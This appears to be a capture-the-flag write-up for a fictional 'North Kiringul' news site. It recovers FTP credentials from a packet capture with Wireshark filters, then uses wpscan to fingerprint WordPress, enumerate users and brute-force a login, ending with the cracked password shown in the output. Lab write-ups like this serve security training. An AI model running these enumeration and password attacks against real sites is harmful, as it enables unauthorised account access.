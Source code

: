 
==PCAP Challenges==

They give you a pcap

Watering Hole 1 - The URL for the North Kiringul Central News Agency's website is www.nkcna.ctf

===PCAP 1===
The IP Address of www.nkcna.ctf is 172.25.45.92

===PCAP 2===
The IP Address of the proxy server is 192.168.51.66

===PCAP 3===
How many unique times has 192.168.51.66 browsed to the NKCNA homepage at http://www.nkcna.ctf/?

213 times.  I used this wireshark filter: ip.src == 192.168.51.66 && http.host == www.nkcna.ctf && http.request.uri == /

===PCAP 4===
Aside from HTTP and DNS, what other unencrypted protocol is found in the PCAP?

FTP.  I used this wireshark filter: ip.src == 192.168.51.66 && !http && !dns

===PCAP 5===
What is the password of the user that logs in to the FTP server?

daebak

===PCAP 6===
Login to the FTP server using the credentials you found in the PCAP.

What is the MD5 hash of the WordPress_Security.pdf file on the server?


Creds: koli/daebak

Hash 873f9e060518b04c85ae59f0fbdbabc9

==Watering Hole Challenges==

Helpful to use `wpscan`. 

`wpscan --url http://www.nkcna.ctf/`

===Watering Hole 3===

What is the version of Wordpress being used? 4.7.2

Output from wpscan

===Watering Hole 4===

What is the username of the person who likely posts the news stories?

nkcna_author

`wpscan --url http://www.nkcna.ctf/ --enumerate u`

===Watering Hole 5===

What is the nkcna_author's cleartext password?

<pre>
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - nkcna_author / zxcvbnm                                                                                                                                                            
Trying nkcna_author / samsung Time: 00:00:32 <============================================================================================================> (255 / 255) 100.00% Time: 00:00:32
</pre>
